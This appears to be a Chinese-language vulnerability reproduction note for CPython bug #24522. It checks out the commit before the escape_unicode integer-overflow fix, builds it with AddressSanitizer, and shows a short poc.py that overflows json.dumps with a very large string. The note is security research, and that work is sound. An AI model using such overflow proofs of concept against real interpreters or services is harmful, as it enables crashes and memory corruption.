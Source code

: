 ```
➜  cpython git:(master) git checkout -f 7b78d4364da086baf77202e6e9f6839128a366ff
➜  cpython git:(7b78d4364d) git log

commit 7b78d4364da086baf77202e6e9f6839128a366ff (HEAD)
Author: Benjamin Peterson &lt;benjamin@python.org&gt;
Date:   Sat Jun 27 15:01:51 2015 -0500

    prevent integer overflow in escape_unicode (closes #24522)

commit 758d60baaa3c041d0982c84d514719ab197bd6ed //  未修复
Merge: 7763c68dcd acac1e0e3b
Author: Benjamin Peterson &lt;benjamin@python.org&gt;
Date:   Sat Jun 27 14:26:21 2015 -0500

    merge 3.4

commit acac1e0e3bf564fbad2107d8f50d7e9c42e5ef22
Merge: ff0f322edb dac3ab84c7
Author: Benjamin Peterson &lt;benjamin@python.org&gt;
Date:   Sat Jun 27 14:26:15 2015 -0500

    merge 3.3

commit dac3ab84c73eb99265f0cf4863897c8e8302dbfd
Author: Benjamin Peterson &lt;benjamin@python.org&gt;
Date:   Sat Jun 27 14:25:50 2015 -0500
...
➜  cpython git:(7b78d4364d) git checkout -f 758d60baaa3c041d0982c84d514719ab197bd6ed
Previous HEAD position was 7b78d4364d prevent integer overflow in escape_unicode (closes #24522)
HEAD is now at 758d60baaa merge 3.4
```

确定漏洞复现`commit: 758d60baaa3c041d0982c84d514719ab197bd6ed`<br>
使用`gcc`编译该`commit`代码

```
➜  cpython git:(7b78d4364d) export ASAN_OPTIONS=exitcode=0 # clang -fsantize=address 发生错误时不退出
➜  cpython git:(7b78d4364d) CC="gcc -g -fsanitize=address" ./configure --disable-ipv6
➜  cpython git:(7b78d4364d) make
➜  cpython git:(758d60baaa) ./python --version
Python 3.5.0b2+
```

使用的`poc.py`

```
import json

sp = "x13"*715827883 #((2**32)/6 + 1)
json.dumps([sp], ensure_ascii=False)
```

使用`gdb`调试
